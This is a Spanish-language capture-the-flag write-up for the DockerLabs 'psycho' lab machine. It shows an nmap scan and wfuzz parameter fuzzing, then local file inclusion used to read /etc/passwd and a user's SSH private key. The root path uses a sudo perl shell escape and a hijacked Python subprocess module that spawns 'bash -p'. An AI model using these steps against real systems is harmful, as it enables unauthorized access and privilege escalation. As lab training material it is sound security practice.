






# 🐧 DockerLabs CTF
## Maquina psycho

###### Dirección IP de la maquina: 172.17.0.2


### 🔧 Paso 1: Escaneo con nmap
```bash
sudo nmap -sSVC -n -nP --min-rate 5000 172.17.0.2
```
#### Puertos abiertos:

- **22/tcp** → SSH
- **80/tcp** → HTTP (Apache)
---


### 🌐 Paso 2: Enumeración Web

Se visitó `http://172.17.0.2/` no se escuentra nada relevante en el contenido salvo un error al final de la pagina. 



### 📂 Paso 3: Enumeración parametros ocultos
parametros  ocultos mediante fuzzing y encontramos el parametro "secret"
```bash
wfuzz -c --hw 169 -t 200 -z file,/usr/share/wordlists/dirb/common.txt -u "http://172.17.0.2/index.php?FUZZ="
```


Modificamos la URL para ver archivos del sistema: 'http://172.17.0.2/index.php?secret=/etc/passwd' en donde se identifica usuario **vaxei** y **luisillo**



Se realiza ataque de fuerza bruta a los usuarios vaxei y luisillo y no se encuentra la contraseña.

se procede  a revisar otros archivos importantes y se encuentra archivo **id_rsa** del usuario vaxei. 



### 🔑 Paso 4: Explotación
Guardamos la llave en nuestra maquina kali y nos conectamos a ssh con el usuario **vaxei**
```bash
ssh -i vaxei_key vaxei@172.17.0.2
```


### 📈 Paso 5: Escalada de privilegios.

Verificamos si el usuario puede ejecutar algo como otro usuario y efectivamente puede elecutar */usr/bin/perl* como el usuario luisillo

Buscamos en `GTFObins` como aprovechar este binario y ejecutamos el comando 
```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'
```


### 📈 Paso 6: Escalada de privilegios a *root*.
Verificamos si luisillo puede ejecutar Binarios como sudo usando *sudo -l*.

Vemos que se puede ejecutar el escript paw.py como **root** al ejecutarlo vemos que hay un error al importar la librería **subprosses**.


Aprovechando el error crea mos un archivo **subprocess.py**  con el sigueinte  para crear una shell con privilegios root.

```bash
import os
os.system("bash -p")
```

Nuevamente ejecutamos el script **paw.py** y ganaremos acceso root a la maquina.

